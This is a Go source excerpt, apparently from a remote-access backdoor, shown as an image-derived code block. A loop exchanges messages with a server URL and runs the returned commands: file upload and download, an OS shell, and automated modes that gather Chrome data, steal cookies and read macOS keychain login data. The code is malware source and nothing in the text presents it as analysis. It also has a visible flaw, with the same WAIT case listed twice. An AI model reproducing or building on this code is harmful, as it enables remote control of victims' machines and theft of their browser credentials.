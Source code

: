 ```golang
					cmd_type = config.COMMAND_INFO
					time.Sleep(config.DURATION_ERROR_WAIT)
				}
			}()

			switch cmd_type {
			case config.COMMAND_INFO:
				msg_type, msg_data = processInfo()
			case config.COMMAND_UPLOAD:
				msg_type, msg_data = processUpload(cmd_data)
			case config.COMMAND_DOWNLOAD:
				msg_type, msg_data = processDownload(cmd_data)
			case config.COMMAND_OSSHELL:
				msg_type, msg_data = processOsShell(cmd_data)
			case config.COMMAND_AUTO:
				msg_type, msg_data = processAuto(cmd_data)
			case config.COMMAND_WAIT:
				msg_type, msg_data = processWait(cmd_data)
			case config.COMMAND_WAIT:
				alive = false
				msg_type, msg_data = processExit()
			default:
				panic("problem")
			}

			msg = command.MakeMsg(id, msg_type, msg_data)
			cmd, _ = transport.HtxpExchange(url, msg)
			cmd_type, cmd_data = command.DecodeMsg(cmd)
		}()
	}
}

func processExit() (string, [][]byte) {
	return config.MSG_LOG, [][]byte{
		[]byte(config.LOG_SUCCESS),
		[]byte("exited"),
	}
}

func processAuto(data [][]byte) (string, [][]byte) {
	var (
		msg_type string
		msg_data [][]byte
	)

	mode := string(data[0])

	switch mode {
	case config.AUTO_CHROME_GATHER:
		msg_type, msg_data = auto.AutoModeChromeGather()
	case config.AUTO_CHROME_PREFRST:
		msg_type, msg_data = auto.AutoModeChromeChangeProfile()
	case config.AUTO_CHROME_COOKIE:
		msg_type, msg_data = auto.AutoModeChromeCookie()
	case config.AUTO_CHROME_KEYCHAIN:
		msg_type, msg_data = auto.AutoModeMacChromeLoginData()
	default:
		msg_type = config.MSG_LOG
		msg_data = [][]byte{[]byte(config.LOG_FAIL), []byte("unknown auto mode")}
	}

	return msg_type, msg_data
}
```